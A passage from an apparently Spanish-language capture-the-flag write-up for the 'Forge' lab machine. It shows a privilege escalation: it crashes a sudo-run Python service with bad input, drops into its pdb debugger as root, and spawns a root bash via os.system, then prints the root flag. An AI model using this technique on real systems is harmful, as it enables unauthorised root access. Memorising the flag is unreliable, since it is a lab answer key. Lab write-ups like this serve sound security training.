 Bueno el programa esta esperando un dato de tipo entero si queremos llegar al **pdb** lo que podemos hacer es introducir una cadena

```bash
user@forge:~$ nc localhost 21726
Enter the secret passsword: secretadminpassword
Welcome admin!

What do you wanna do: 
[1] View processes
[2] View free memory
[3] View listening sockets
[4] Quit
adslkasdjklsjldslj
```

Si lo hacemos en la otra consola llegamos al **breakpoint**

```bash
user@forge:/$ sudo /usr/bin/python3 /opt/remote-manage.py 
Listening on localhost:21726
invalid literal for int() with base 10: b'adslkasdjklsjldslj'
> /opt/remote-manage.py(27)<module>()
-> option = int(clientsock.recv(1024).strip())
(Pdb) 
```

Estamos en esta linea

```bash
(Pdb) l
 34  	           elif option == 4:
 35  	               clientsock.send(b'Bye\n')
 36  	               break
 37  	except Exception as e:
 38  	   print(e)
 39  ->	   pdb.post_mortem(e.__traceback__)
 40  	finally:
 41  	   quit()
[EOF]
(Pdb) 
```

Podemos importar librerías y directamente ejecutar comandos

```bash
(Pdb) import os
(Pdb) os.system("whoami")
root
0
(Pdb) 
```

Y pues ahora le indicamos que queremos una **Bash**

```bash
(Pdb) os.system("bash")
root@forge:/# whoami
root
root@forge:/# 
```

## Root flag

```bash
root@forge:~# cat root.txt 
e916cc17fd4a3fb9a1ed909ff595cacc
root@forge:~# 
```
